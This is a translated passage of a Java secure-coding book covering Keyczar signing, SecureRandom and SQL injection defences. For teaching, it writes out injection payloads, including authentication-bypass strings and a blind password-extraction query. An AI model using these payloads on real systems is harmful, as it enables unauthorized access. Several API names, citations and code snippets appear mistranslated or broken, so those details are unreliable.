使用 Keyczar 创建和验证签名只需要几行代码。在我们深入研究之前，让我们快速创建一个签名密钥集，因为我们之前过的密钥集都是用于加密和解密的。记住，即使 RSA 是一种可以用于加密和签名的算法，你不能使用 RSA 密钥集。RSA 密钥集的目的是 `crypt`，Keyczar 只允许将其用于加密和解密。你需要专门为签名创建一个密钥集。

使用你使用的相同的 `create` 命令，但指定 `sign` 为目的：

```
$ KeyczarTool create --location=/keyczar/keys/dsa \
--purpose=sign --asymmetric=dsa
```

这创建了一个用于签名和验证的 DSA（数字签名算法）密钥集。按照通常方式使用 `addkey` 填充密钥：

```
$ KeyczarTool addkey --location=/keyczar/keys/dsa \
--status=primary
```

### 第 6 章：保护数据 171

你现在可以签名数据了。以下代码使用你的新密钥集创建一个签名：

```java
String path = "/keyczar/keys/dsa";
Signer signer = new Signer(path);
String signature = signer.sign("data");
```

类似的代码将验证签名：

```java
Signer signer = new Signer(path);
boolean isVerified = signer.verify(plaintext, signature);
if (isVerified) {
    System.out.println("OK: 签名有效.");
} else {
    System.out.println("WARNING: 签名无效。");
}
```

正如我们处理 RSA 加密密钥集一样，你可以导出 DSA 公钥并让其他人可以使用。这将允许他们验证你用密钥集中的私钥签名的数据。

首先，你需要创建一个新的密钥集来存储密钥：

```
$ mkdir /keyczar/keys/dsa-pubkeys
$ KeyczarTool create --location=/keyczar/keys/dsa-pubkeys \
--purpose=sign --asymmetric=dsa
```

现在，将 DSA 密钥集的公钥导出到新的密钥集：

```
$ KeyczarTool pubkey --location=/keyczar/keys/dsa \
--destination=/keyczar/keys/dsa-pubkeys
```

现在你可以将 `dsa-pubkeys` 提供给其他使用 Keyczar 的人。与导出 RSA 公钥的情况类似，你新导出的 DSA 密钥只能用于验证。正如我们之前讨论的，`dsa-pubkeys` 密钥集（在元文件中指定的）目的是 `VERIFY`。Keyczar 提供了 `Verifier` 类来处理这种情况。

```java
Verifier verifier = new Verifier(path);
boolean isVerified = verifier.verify(plaintext, signature);
if (isVerified) {
    System.out.println("OK: 签名有效.");
} else {
    System.out.println("WARNING: 签名无效。");
}
```

任何使用 `dsa-pubkeys` 密钥集的人都需要前面的代码来验证签名。

### 168 铁甲 Java：构建安全的 Web 应用

AES 密钥。你的密文也会变长。这里有一个使用 AES 加密“Hi there”（使用 128 位密钥）的示例：

```
ABnLCcL-Apnf5lN_Q8sGHnoldc34te-Mk3YmOhQ7W5sUKkRSAGgc
-XYi5m07cz20UT3IKY5CBYB
```

由于我们正在处理的是字符串，这里的输出是 Base64 编码。这里有一个使用 RSA 加密“Hi”（使用 4096 位密钥）的示例：

```
ANWMY-9IW73buVU9Qc2cwSh1fPtQbsI1mCDIDEOasvy2WjQHRxoLo
QvS1QW5K-tMOPTEKR24K20BYJH47TT1IKkikqqo-wpm-S2rdSS
Y6AW9NI5INH4uf3JRK44e5B5BUHY72djydjWH2dw1T7_ZY
E2y6HS2GUtLWhTh7B3DICCP71H2SRGMKIlXwpC300Yru41lt9j3q
zDC140T81KL6yc7chaetml-u2YVlrgZ139ayXxc_8BaaOitvoj
a5bpoX5GHIHnLLJMb8Wlu-uYZPMWDU51Ig1wrg-kjvPz37m14kAR
ey2z7c2FpnFwL1XSdoMeJbJDSUNOUW6GnnFR82FN1SwGNOrAHIhyfIAkq
0DUFI5KSxMbpPalcAGB_775Y4L75XRKYB6MjYj2rBLpDW2Fo-TG
E15I29PWUB2ME-aTIbWI_0mg_qlts70Fe8e8S5bcscCYVobPCoFTJROvVP55P
9YgbclC47sDM89h288kjT-YtAghnNE5B5scCYVobPCoFTJROvVP55P
I_8WE_EdqkQIQxcxgTMpFfY1W7C1bKBovj3St06SH6Vmn1J8ESRCXTnDHNI2ZllW4GU27P9nk37uyaKanRFTQ8IAD
PIUd9hCN3UE_2pa509gOHlyJSHnKr76D
```

## 第 6 章：保护敏感数据

通过在 `addkey` 命令中使用 `--crypter` 标志，可以使用加密密钥（encryption keys）。要加密你 `demo2` 密钥集中的密钥，需要设置一个加密密钥集（crypto keyset）来存储密钥密钥（kek）。让我们使用 `kek` 作为我们的密钥密钥。当你向 `demo2` 密钥集添加密钥时，需要指定 `--crypter` 标志并指向 `kek` 密钥集的路径。

```
$ KeyczarTool addkey --location=/keyczar/keys/demo2 \
  --status=primary --crypter=/keyczar/keys/kek
```

`demo2` 密钥集中的新密钥是被加密过的。你添加到此密钥集中的每个新密钥都必须指定相同的加密密钥集（`kek`）来使用这些密钥密钥。否则，`addkey` 命令将失败。

使用加密密钥集比你之前实现的实现要稍微复杂一点，但它其实非常直观。假设 `keyPath` 指向你的实际密钥路径（`/keyczar/keys/demo2`），而 `kekPath` 指向你新的密钥密钥路径（`/keyczar/keys/kek`）：

```
KeyczarFileReader keyFile = new KeyczarFileReader(keyPath);
KeyczarFileReader kekFile = new KeyczarFileReader(kekPath);
CryptoCrypter crypter = new CryptoCrypter(kekPath);
KeyczarEncryptedReader reader = new KeyczarEncryptedReader(keyset, crypter);
```

```java
// 加密数据
String ciphertext = crypter.encrypt("Top secret data.");
```

```java
// 解密数据
String decrypttext = crypter.decrypt(ciphertext);
```

也许 Keyczar 的未来版本会提供一个既能接受 `keyPath` 又接受 `kekPath` 的 `Crypto` 构造函数。在此之前，你必须添加额外的代码来创建 `Crypter`。

保持密钥安全的最佳实践是让它们与数据分离。也许密钥存储在应用服务器上（与应用代码一起），而加密后的数据则存储在数据库服务器上。另一种方法是将加密过程完全隔离到运行在自己独立服务器上的单独服务中。

该服务可能会监听一个由 TLS 保护的端口。需要加密数据的应用程序将数据封装在请求中发送给加密服务。加密服务在确保应用程序具有加密权限后，返回加密数据。解密的过程也类似。这种方案的优势之一是，加密服务可以允许某些应用程序仅加密数据，而允许另一组应用程序进行解密。例如，前端点单系统可以请求加密服务，但只有后端订单处理系统才能真正请求解密数据。Keyczar 凭借内置的密钥管理功能，可以为此类加密服务提供极佳的基础。

该方向的另一种选择是将加密与密钥管理分离。在这种情况下，加密和解密可以在应用程序服务器上进行，但密钥实际上存储在其他地方。当应用程序需要密钥时，它会向密钥服务器发送请求。如果密钥服务器验证了请求者的身份，它会将密钥发送给应用程序。应用程序永远不会将密钥写入磁盘，而是将其保留在内存中。我们之前用于密钥密钥功能的 Keyczar 读取器框架可以被扩展，以非常透明的方式实现这一点。

构建此类系统超出了本书的范畴，但如果你在一个高度依赖加密的环境中工作，实现加密服务或密钥服务器将使密钥管理变得简单得多。密钥管理将集中在一个系统中，而不是分散在多个不同的应用程序中。它还可以让安全审计变得简单一些，因为密钥只存储在一个地方。

### 安全随机数

我们本章的最后一个主题很短，但非常重要。通常在处理加密和其他安全操作时，你将需要访问一个生成随机数的系统。生成一个不可预测的数字序列并非易事，在本节中我们将看看如何在 Java 中实现这一点。

许多计算机系统都有一种机制，可以从硬件内部发生的事件或取决于其他非确定性事件中收集随机数据。这个随机池通常是高质量的，但是有限的。一旦池被使用，在更多必要的硬件相关事件发生之前，它将不会再次刷新。如果你的代码依赖这个随机源，你可能需要为代码在等待额外的随机性（熵）累积而发生阻塞做好准备。

加密伪随机数生成器（CPRNG）通过算法生成看似随机的数据来最大限度地减少这个问题。这些算法通常以初始值作为种子，如果向 CPRNG 喂相同的种子，就会生成相同的随机数据序列。为了提供更多的随机性，种子通常从系统的实际随机数据中提取，然后在 CPRNG 运行时频繁重新设置种子。这提供了一个可靠的伪随机数据池，同时最大限度地减少了阻塞的概率。

Java 提供了一个名为 `SecureRandom` 的类，承诺在你任何需要时都提供不可预测的随机数序列。遗憾的是，正确使用 `SecureRandom` 可能有点棘。`SecureRandom` 的底层实现取决于平台。它在 Windows、Linux 和 OS X 上的功能不同。与其探索该类在每个平台上如何运行的细节，我们将专注于提供一些适用于大多数平台的通用指导。

我们不再仅仅创建一个默认的 `SecureRandom` 对象，而是精确指定我们想要使用的算法。

```java
byte b[] = new byte[16];
SecureRandom sr = SecureRandom.getInstance("SHA1PRNG", "SUN");
sr.nextBytes(b);
```

在这里，我们指定 `SHA1PRNG` 为 CPRNG，它是包含在 SUN 提供程序中的。获取 `SecureRandom` 对象后立即调用 `nextBytes()` 是重要的。然而，取决于平台，这可能会阻塞，因此你可能希望在一个线程中执行它，或者采取防御性处理。

```java
byte[] reseed = sr.generateSeed(20);
sr.setSeed(reseed);
```


`generateSeed()` 方法调用平台的原生种子生成机制返回一个字节数组。这些字节可以用于重新设置 `SecureRandom`。更准确地说，该方法使用了对象使用的种子生成算法对其初始化。注意，通过 `setSeed()` 方法进行重新设置是增强现有的种子，而不是替换它。这确保了随机性不会降低。永远不要在调用 `nextBytes()` 之前调用 `setSeed()`，因为这将 `SecureRandom` 跳过内部种子机制，转而使用传递给 `setSeed()` 内容，可能会降低你的随机性。

这些指南将帮助你在需要时创建安全的随机数¹。好消息是 Java 8 显著改进了这种情况。`SecureRandomStrong()` 方法现在提供了平台提供的最强随机数生成器。更新还提供了新的原生算法来接入主机随机数生成器，并修复了指定特定原生源的问题。你可以在 Java 8 发布说明中了解更多此类更改。

### 提示

Java 8 具有许多新功能可以帮助你的加密工作更加安全。这些包括：

- 增强证书撤销检查：`PKIXRevocationChecker` 类现在可以查询感兴趣证书的撤销状态。
- SSL/TLS 服务器名称指示扩展：TLS 已添加名称指示（SNI）扩展以支持虚拟主机。这一改进对于在单个 IP 地址上支持多个 HTTPS 网页应用程序非常有用。
- 加密算法改进：额外的改进包括高熵随机生成的改进、支持 AEAD JSSE 密码套、扩展 PKCS 11 提供程序以包含改进的 JKS-JCEKS-PKCS12 密钥库，以及限制使用 RSA 密钥小于 1024 位的证书。


¹Cigital 发表了关于 `SecureRandom` 的有趣研究。请参 https://www.cigital.com/justice-league-blog/tag/securerandom/。

欲了解更多关于 Java 8 安全改进的信息，请访问 www.securitycurmudgeon.com/2014/04/spotlight-on-java-se-8-security.html 和 http://docs.oracle.com/javase/8/docs/technotes/guides/security/enhancements-8.html。

## 总结

本章涵盖了保护敏感数据在网络中传输或存储在机器或介质上时的各种机制。对于传输中数据的保护，我们研究了 Java 如何通过 Java 安全套接扩展（JSSE）支持 TLS 和 SSL，并查看了安全使用该库的关键元素，演示了如何设置所需的密码套件并使用自定义信任管理器验证证书，还提供了管理 TLS 和 SSL 所用证书的详细技术。最后，本节介绍了证书固定（certificate pinning），这是一种验证证书的较新技术。

在保护静态数据的章节中，我们详细介绍了 Keycaesar 的使用，这是一个简化了加密操作正确实现和密钥管理过程的工具包。在讨论了加密和签名（Keycaesar 支持的两种操作类型）的区别之后，该节探讨了密钥集（keysets）的细节——Keycaesar 使用它来存储密钥。随后，我们展示了使用 AES 和 RSA 进行加密和解密，以及使用 DSA 进行签名和验证的示例。该节通过描述 Keycaesar 中的密钥管理技术结束，其范围涵盖从密钥加密到密钥服务器和加密服务提供者的讨论。

本章最后讨论了 Java 生成加密随机数的能力，以及这些能力如何依赖于底层操作系统。我们涵盖了随机性来源、调用 `SecureRandom` 对象操作的正确顺序，以及如何使用新的随机数据定期刷新 `SecureRandom`。现在你应该已经充分理解了如何保护数据免受本章开头所讨论的威胁：网络流量窃听、身份冒充和存储数据被窃取。


# 第 7 章：SQL 注入和其他注入攻击

## 什么是 SQL 注入？

不要误认为：许多 Web 应用程序和 Web 服务应用程序仅仅是增强版的数据库应用程序。程序员通过 SQL、OQL 和 HQL 等结构化查询语言将 Web 应用程序与数据库建立接口。结构不当的查询导致在线应用程序被利用的主要原因之一，并被臭名昭地称为 SQL 注入！

当不可信的数据（例如来自应用程序 Web 页的用户数据）被添加到数据库查询中，就会发生 SQL 注入，从根本上改变结构并产生与应用程序设计或目的不一致的行为。聪明的攻击者利用 SQL 注入漏洞窃取敏感信息、绕过身份验证或获取高权限、在数据库中添加或删除行、拒绝服务，在极端情况下，利用数据库作为对内部系统进行复杂攻击的跳板，从而获得操作系统的直接访问权限。

SQL 注入是目前影响在线应用程序的最危险的漏洞。当你读到黑客窃取了 45 万个用户账户或有 1.3 亿张信用卡号泄露时，很可能是该应用程序遭受了 SQL 注入攻击。幸运的是，有许多工具和技术可以利用它们来保护你的应用程序。这些软件工具通常分为两类：动态分析和静态分析。动态分析工具通过在运行时扫描应用程序，通过快速测试大量已知攻击模式并寻找服务器响应的变化（这表明存在漏洞）来测试 SQL 注入。一旦确认了漏洞，这些工具就可以自动构建查询，以便于审查数据库结构或修改数据。静态分析工具实现相同的目的，但测试的是程序代码。静态分析工具是有益的，因为可以在开发过程中对代码进行审查或分析。早期发现的漏洞可以在开发过程中修复，降低项目的整体成本。当完成了足够的工作使应用程序执行时，动态分析工具非常有益。最佳实践是将两种技术结合起来，并将安全测试纳入你的开发过程中。

SQL 注入在代码中是什么样子的？导致 SQL 注入的主要安全反模式是使用“动态字符串构建”技术在运行时组合数据库查询。具体来说，当程序员将查询语言片段和不可信数据混合时，它就为 SQL 注入提供了机会。

让我们从一个 Java 代码示例开始。

```java
// 注意：请勿使用此代码示例。
// 注意：它是危险的且易受 SQL 注入攻击！

String sqlQuery = "SELECT id, name, short_name, size_code " +
  " FROM company " +
  " WHERE id = " + request.getParameter("company_id");
```

结构化查询的第一部分是 `SELECT id, name, short_name, size_code FROM company WHERE id = `。接下来是不可信的数据——在这种情况下，是来自 Web 应用程序的用户输入，经过解析并连接到之前的字符串：`.getParameter("company_id")`。

查询片段被组合成单个查询并发送到数据库进行处理。

> **提示**
>
> `request.getParameter()` 的值只能在运行时确定，并且它是注入向量。结合不可信数据动态构建数据库查询字符串会产生数据库被攻破的机会。

SQL 注入有多危险？攻击者有许多方法操纵 HTTP 请求的部分内容以利用 SQL 注入漏洞并造成危害。例如，在上述示例中，如果用户提交 `1` 或 `1=1` 作为公司 ID 会发生什么？让我们仔细观察。在浏览器上，发送到应用程序的 URL 可能如下：

```text
http://www.vulnerable.com/company?company_id=1+or+1=1
```

之前的输入与我们原始的 SQL 语句拼接在一起，产生了以下交由数据库执行的查询（加粗显示为受污染输入）：

```sql
select id, name, short_name, size_code from company
where id=1 or id=1
```

有了前面的查询，猜想接下来会发生什么并不难。WHERE 子句中的 `"or 1=1"` 导致了一个始终返回 true 的条件！SQL 语句现在不再返回单个公司，而是返回数据库中的每一个公司。

上述只是一个温和的例子。对于更具说服力的例子，请考虑以下基于表单的身份验证机制。用于验证在线 Web 应用程序用户的 SQL 查询可能如下：

```java
// 注意：请勿使用此代码示例。
// 注意：它是危险的且易受 SQL 注入

"SELECT id, first_name, last_name, permissions " +
  "FROM user " +
  " WHERE username = '" + request.getParameter("username") +
  "' AND password = '" + request.getParameter("password") + "';"
```

考虑如果应用程序服务器接收到以下 HTTP POST 会发生什么：

```http
POST /login HTTP/1.1
Host: www.vulnerable.com

username=fred&password=a'+or+'a%3da
```

执行的解析查询将如下所示：

```sql
SELECT id, first_name, last_name, permissions
FROM user
WHERE username = 'fred'
AND password = 'a' or 'a'='a'
```

有想法这会如何影响应用程序登录吗？结果是由于密码变得无关，对用户 `fred` 实现了完全的身份验证绕过。通过更改用户名参数，攻击者可以登录作为系统上的任何用户，并获得对该用户可用所有服务和数据的完全权限。

如果密码经过了哈希处理呢？（请注意，第 3 章讨论了正确的密码存储技术。）在这种情况下，你的代码可能如下所示：

```java
// 注意：请勿使用此代码示例。
// 注意：这是存储密码的一种非常薄弱的方法！

String hashedPassword = sha256(request.getParameter("password"));

SELECT id, first_name, last_name, permissions " +
 FROM user " +
 WHERE username = " + request.getParameter("username") +
' AND password = '" + hashedPassword + '';
```

上一个示例中使用的相同攻击的未加盐的 SHA-256 哈希可能如下所示：

```text
075f67672743a6e4ad5d3af93f4c3d805f669b2bcacedaefc71c02649e5dcc112d
```

这使得数据库执行的最终查询看起来如下：

```sql
SELECT id, first_name, last_name, permissions
FROM user
WHERE username = 'fred'
AND password =
'075f67672743a6e4ad5d3af93f4c3d805f669b2bcacedaefc71c02649e5dcc112d'
```

这样对吧？通过对密码进行哈希，攻击者就无法更改 SQL 查询的结构，对吧？错了。

`username` 参数仍然被直接拼接，这使得整个 SQL 语句变得容易漏洞。记住，如果攻击者可以在查询的任何地方插入 SQL 片段，那么整个 SQL 语句都是脆弱的。例如，如果攻击者发送输入 `fred'--`（SQL 中的注释），执行的结果语句是：

```sql
SELECT id, first_name, last_name, permissions
FROM user
WHERE username = 'fred'--

AND password =
'075f67672743a6e4ad5d3af93f4c3d805f669b2bcacedaefc71c02649e5dcc112d'
```

同样，这将完全绕过基于密码的身份验证机制，因为查询中 `--` 之后的剩余部分被注释，而不是考虑执行的查询的一部分。这还引出了一个有趣的点：不同的数据库具有略有不同的语法和功能。某些注入尝试可能仅对特定的数据库或版本有效。

## 其他 SQL 注入示例

存在许多自动化工具，可以方便攻击者一次一个字符地外泄整个数据库的数据。即使是最“微小”的 SQL 注入漏洞也可能导致整个数据库被盗取或攻破。好吧，你懂了——SQL 注入是危险的！那么你该如何阻止它？以下是一些常见的防止或停止 SQL 注入攻击的建议，但它们并不是针对 SQL 注入的正确防御措施！不要依赖这些方法来阻止 SQL 注入！

- **黑名单验证**：这种技术通过建立规则来定义 SQL 注入攻击并拦截该请求。这是一种极具挑战性且往往脆弱的防御。如果黑名单验证规则过于严格，良好的请求会被拦截；如果黑名单规则太松，真实世界的攻击就会渗透。
- **输出编码**：这种技术在动态将输入添加到动态查询之前，对输入进行“转义”。不同类型的编码（由攻击者对输入进行处理）可以绕过这种防御，并转义数据库 SQL 编码所需的字符（且对于每个数据库供应商来说会有所不同）。
- **存储过程**：正如我们很快将演示的那样，仅靠存储过程不足以停止 SQL 注入。事实上，如果构建不当，存储过程本身也可能受到 SQL 注入的攻击。

之前描述的方法要么过于严格，要么太松，或者它们本身就会导致安全漏洞¹。黑名单过滤器通常被作为临时解决方案，而在这种情况下更持久的保护更为合适。诚然，除了白名单过滤外，黑名单过滤可以提供良好的入侵检测。

你不能简单地将 SQL 单引号字符（`'`）加入黑名单，因为在某些情况下你可能需要接受它作为有效输入。例如，考虑 `"O'Leary"` 这个名字，或者用户的名字可能是 `"NULL"`。这些字符需要原封地存储在数据库中，以便在用户浏览器中渲染时能够正确表示。

在设计安全的 Web Web Web 应用程序以抵抗 SQL 注入时，有多种防御方法需要考虑。两种主要方法是查询参数化和输入验证。还有一些机制可以用来减少漏洞应用程序中 SQL 注入的影响。这些建议中的某些只是良好的设计和良好的软件安全规范。

最好不要直接修改不可信的输入，而是防止其更改原始设计中结构化查询的行为。换句话说，即使不可信的数据包含了数据库使用的保留字符或单词，它们也会被数据库解释为数据而非命令。这引导我们进入了下一个主题：参数化。让我们深入研究吧！

## 查询参数化

幸运的是，Java 已经包含了一种防止 SQL 注入的内置机制：预编译语句（prepared statements）。预编译语句是 Java 版的查询参数化，到目前为止，它是停止 SQL 注入战斗中最重要的软件工程技术。查询参数化是一种计算机编程技术，通过将不可信的数据“绑定”到查询中的占位符来安全地构建动态 SQL 语句。由于 SQL 注入带来的风险水平，参数化是开发者构建安全网站时可以使用最重要的技术。大多数开发者可能因为预编译语句提供的性能改进而熟悉它们。预编译语句的另一个优点是它们有效地将查询数据与结构分离。为什么参数化查询运行更快？参数化查询的执行计划在数据库中是预先生成的。后续对同一连接的调用将更快。

*铁甲 Java：构建安全的 Web 应用程序*，186

因此，这种机制不仅更安全，还迫使开发者编写设计更好的代码，这些代码更容易维护。

下面是我们使用参数化进行“注入安全”数据库查询的第一个示例。在 Java 中，参数化通过 `java.sql.PreparedStatement` 类提供。

```java
String username = request.getParameter("customerName");

String query = "SELECT profile_desc FROM users WHERE user_name = ?";

PreparedStatement pstmt = connection.prepareStatement(query);

pstmt.setString(1, username);

ResultSet results = pstmt.executeQuery();
```

当你使用查询参数化编程技术时，它实际上保护了你的应用程序不受注入。当你使用 `PreparedStatement` 类和类似的结构时，带有变量的参数化 SQL 会发送到数据库，导致数据库为该查询结构构建执行计划。预编译语句的第二部分——将不可信数据绑定到查询——会在第二次发送到数据库，以遍历查询计划并执行查询。由于计划已经“构建”好了，注入是不可能的。幸运的是，Java 中的参数化是你掌握的较易的安全编码技术之一。此外，参数化不仅防止 SQL 注入，还因为查询执行计划在数据库中缓存而提高了重复查询的性能！这使得参数化成为一种具有安全之外多益处的安全控制措施。

```java
String untrustedEmployeeName = request.getParameter("user_name");

String sessionUserId = session.getAttribute("user_id");

if ((untrustedEmployeeName != null && sessionUserId != null)) {
    PreparedStatement pstmt =
        con.prepareStatement("UPDATE EMPLOY SET NAME = ? WHERE ID = ?");

    pstmt.setString(1, untrustedEmployeeName);
    pstmt.setString(2, sessionUserId);
}
```


> ² 查询参数化几乎每种 Web 相关的编程语言中都有。https://www.owasp.org/index.php/Query_Parameterization_Cheat_Sheet

## 第 7 章：SQL 注入与其他注入攻击 187

在前述代码的 `UPDATE` 语句示例中，尽管 `userId` 被作为字符串绑定到查询中，该查询仍然对 SQL 注入具有免疫！此外，尽管 `userId` 来自可信源（会话），为了完整性、性能和可审计性，你仍应该将该变量参数化到查询中。

防止 SQL 注入的最佳防御是对所有查询进行查询参数化，并对所有动态添加到查询的变量进行绑定。当涉及到你的应用程序时，切不要危及安全，要使用参数化！

## SQL 注入与存储过程

存储过程可能会被“注入”。数据库设计人员和开发者在开发存储过程中也必须使用查询参数化和变量绑定。这不是数据库厂商的错，存储过程可能会被滥用或错误使用。幸运的是，查询参数化技术简单、安全，并且提高了存储过程的性能，因为参数化的 SQL 是预编译的。

以下是一个易受 SQL 注入的 `PL/SQL` 存储过程示例：

```sql
CREATE FUNCTION user_count_last_name (

  input_last_name VARCHAR2

) RETURN int AS

  total_users int;

  final_query varchar2(32767) :=

  'SELECT count(*) FROM users WHERE lastname=' || input_last_name || ''';

BEGIN

  EXECUTE IMMEDIATE final_query INTO total_users;

  RETURN total_users;

END;
```

你能看出上述存储过程的问题了吗？变量 `input_last_name` 是通过字符串构建动态添加到查询中的。攻击者可以发送诸如 `' or 1=1` 的查询片段来泄露用户总数。

## 188 铁甲 Java：构建安全的 Web 应用程序

数据库中的用户数本身并不有趣，但它确实为攻击者提供了寻找其他有用数据的简单指标。发送如下攻击字符串：

```
'' OR CASE WHEN SUBSTR(password, 1, 1) = 'a' AND ROWNUM = 1 --
```

会导致执行的查询变为：

```sql
SELECT (*)

FROM users

WHERE lastname=''

OR CASE WHEN SUBSTR(password, 1, 1) = 'a' AND ROWNUM = 1 --
```

数据库中不太可能存在 `lastname=''`，因此 `WHERE` 子句将评估为 `FALSE`。但如果 `password` 的第一个字符是 `a`，此语句将返回 1。如果返回 0，则攻击者知道第一个字符不是 `a`。通过快速遍历 `password` 列的每个位置，像 `SQLMap` 这样的自动化工具可以一次一个字符地检索整个数据库的内容！

针对上述存储过程的解决方案很简单。开发者只需要将拼接的 SQL 语句替换为数据库自带的参数化版本（**加粗**显示）：

```sql
CREATE FUNCTION user_count_last_name (

  input_last_name IN VARCHAR2

)

RETURN INT AS

  total_users int;

  final_query varchar2(32767) :=

  'SELECT COUNT(*) FROM users WHERE lastname=:input';

BEGIN

  EXECUTE IMMEDIATE final_query INTO total_users USING input_last_name;

  RETURN total_users;

END;
```

构建安全的存储过程并不困难。事实上，它是最易掌握的安全编码技术之一。

> ³ http://sqlmap.org/

## 深度防御

查询参数化是任何 Web 语言中彻底停止 SQL 注入的最强技术。那么是否还需要其他防御？其他防御措施，如输入验证、设计恰当的存储过程以及限制应用程序连接数据库的用户账户权限，都是降低应用程序整体风险的良好机制。

代码中存在无法进行查询参数化的情况。这些异常很少见，但在旧代码中会出现。例如，对于某些数据库厂商，表名和列名是不支持参数化的。尽管这种情况会导致人们质疑：“为什么不可信的数据会驱动列名或标题？”但它们经常被开发者用于创建仅包含某些列或允许用户指定自定义排序的报告。这种反模式被称为不安全的直接对象引用（`Insecure Direct Object Reference`），它是 OWASP 十强 2013 的风险 #24。当需要快速修复旧代码中的此类漏洞且无法进行参数化时，输入验证等技术是可接受的替代方案。

这是一个允许攻击者在查询中指定列名的注入代码示例。除了注入，该示例还暴露了你的数据库和应用程序的内部结构。假设我们有这样一个 URL：

`http://www.site.com/productReport?orderby=price`

URL 中的 `orderby` 对应动态添加到 SQL 语句并用于排序数据的数据库列名。非常脆弱的代码可能是：

```java
String orderBy = request.getParameter("orderby");

String dangerousQuery =

  " SELECT name, type, size, num_sold, price " + 

  " FROM products ORDER BY " + orderBy;
```

请记住，参数 `orderby` 让攻击者很容易猜测提交的参数在应用程序查询中是如何使用的。

> 4 https://www.owasp.org/www-php/Top_1013-Insecure_Object_References

## 190 铁甲 Java：构建安全的 Web 应用程序

## 输入验证与类型安全

在构建安全的数据库交互时，请考虑以下额外的防御措施：

- **验证结果数量**：验证结果数量在合法范围内是明智的。如果你预期一个或零个结果，但收到了多个，则结果可能包含了某种设计缺陷。
- **类型安全**：如果你从 `SELECT` 语句中提取数字或日期，请强制将输出转换为正式的数据类型。这可以帮助防止工具一次一个字符地泄露数据。
- **参数化每个变量**：确保即使是数字等不可注入的变量也进行参数化，以满足性能和可审计性。

## DAO 模式与访问控制考虑

常见的对象设计模式之一被称为 `DAO`（数据访问对象）模式。`DAO` 模式适用于应用程序数据的表示和管理。`DAO` 模式通常提供增删改查（`CRUD`）方法，将应用程序与获取信息所需的细节隔离开来。在构建 `DAO` 层时，确保它使用参数化技术以保持应用程序完全安全。判断 `DAO` 类是否易受注入的一种方法是查看任何 `DAO` API 是否接受未参数化的查询片段（如表名或列名）。如果是这样，你的 API 可能受到 SQL 注入攻击。排除安全考虑，将查询片段传递给 `DAO` API 违反了 `DAO` 模式的初衷，即数据库中立。设计 `DAO` API 的其他考虑包括集成最小的输入验证以确保数据符合业务需求，并在 `DAO` 层添加身份和访问控制。这将确保即使是使用 `DAO` API 的新手程序员也能安全地操作。

例如，许多 `DAO` 层具有类似于以下简单示例的接口：

```java
public interface UserDAO {

    public List<User> getAllUsers();

    public User getUser(int userName);

    public void updateUser(User user);

    public void deleteUser(User user);

}
```

请注意，这个 `DAO` 示例必须对所有不可信输入进行参数化！`userName` 以及 `getUser` 和 `updateUser` 函数中使用的任何数据都必须参数化，无论输入是什么。

## 192 铁甲级 Java：构建安全的 Web 应用

发送到 `DAO` 层时，底层查询完全免疫了 SQL 注入。但请注意，拥有此 `DAO` 层访问权限的实体可以检索所有用户、更新任何用户并删除任何用户。我们建议在 `DAO` 层直接添加安全控制措施，而不是在上游提供防御。一个“经过安全保护”的 `DAO` 层可能如下所示：

```java
public interface User {

    List<User> getAllUsers(Entity requestor)

        throws AccessControlException, AuthenticationException;

    public User getUser(Entity requestor, int userNum)

        throws AccessControlException, AuthenticationException;

    public void updateUser(Entity requestor, User user)

        throws AccessControlException, ValidationException;

    public void deleteUser(Entity requestor, User user)

        throws AccessControlException, ValidationException;

}
```

## SQL 注入与对象关系映射

即使是 `Hibernate`、`Castor` 或 Java 的 `DDO` 等对象关系映射机制也可能存在注入风险。考虑以下简单的可注入 `Hibernate` 示例：

```java
String productName = request.getParameter("product_name");

Query hibernateQuery = session.createQuery(

    "from Products as products where product.name = '" + productName + "'");

List queryResults = hqlQuery.list();
```

不要误会，`HQL` 注入通常比 SQL 注入更难利用，但风险是真实的。这是一个防止注入的 `HQL` 查询示例：

```java
String productName = request.getParameter("product_name");

Query hibernateQuery = session.createQuery(

    "from Products as products where product.name = :prodname");

List queryResults = hqlQuery.setString("prodname", productName).list();
```

## 第 7 章：SQL 注入和其他注入攻击 193

## 减少 SQL 注入的影响

采取多种配置措施可以减少 SQL 注入的影响。如果应用程序完全使用参数化查询，SQL 注入的风险就会消除。然而，构建安全的应用程序时，多层防御策略至关重要。后续章节描述的防御措施将确保即使 SQL 注入渗透成功，对组织造成的损失也将被控制。

## 数据库权限

想象一个由数据库驱动的内容管理的 Java Web 应用程序。应用程序中的数据可能对业务不敏感。此类应用程序中的 SQL 注入漏洞可能被认为影响很小。事实上，此类站点的安全性往往被忽视。

为了减少权限故障引起的影响，IT 运维人员有时会走捷径，例如使用数据库管理员账户。由于管理员账户拥有整个数据库的权限，应用程序在运行时可能会遇到权限问题。解决方案是配置数据库连接池或标准数据库用户遵循 `POLP`（最小权限原则）或 `POLA`（最小授权原则）。应用到上一个示例，运维人员应与开发者确认正确的访问需求，并创建一个权限最小的新数据库用户以实现所需的功能。

> http://www.red-database-security.com/whitepaper/oracle_sql_injection.html

## 194 铁甲级 Java：构建安全的 Web 应用

例如，Web 应用可能只需要从某些表中 `SELECT` 数据，而实际上不需要 `UPDATE` 任何内容。Web 应用几乎不需要 `DROP` 表、创建存储过程或安装额外的过程化语言，特别是对于应用程序外的数据库。

## 结果数量验证

验证数据库查询的结果数量有助于保护您的应用程序。如果您期望查询只返回一个结果而它返回了多个结果，这可能表明对您的应用程序存在攻击。作为深度防御机制，考虑检查查询返回或影响的行数，并在发生意外结果时返回错误消息或回滚事务。Java 6 及更高版本的 `JDBC4ResultSet` 类有一个名为 `getCount` 的方法，它可以返回受 SQL 语句（以及 `UPDATE` 或 `INSERT` 语句）影响的行数。以下示例展示了如何使用这种技术：

```java
PreparedStatement ps = con.prepareStatement(

"SELECT * FROM users where username=? AND passwordhash=?");

stmt.setString(1, usernameInput);

stmt.setString(2, hashedPassword);

JDBC4ResultSet rs = (JDBC4ResultSet)ps.executeQuery();

rowNumber = rs.getCount(); // select同样适用

if (rowNumber > 1) {

throw new SQLException();

}
```

考虑到所有因素，从查询参数化开始，采取健壮的策略让您的应用程序不再受到 SQL 注入的影响。良好的设计和安全编码将让你在当今危险的威胁环境中真正敏捷开发。继续吧！

## 其他注入形式

除了 SQL 注入，还有许多形式的注入。所有形式的注入都源于混合不可信数据的反模式。正如 90 年代乐队 `The Offspring` 在他们的……中所说

## 第 7 章：SQL 注入和其他注入攻击 195

## XML 和基于 JSON 的注入

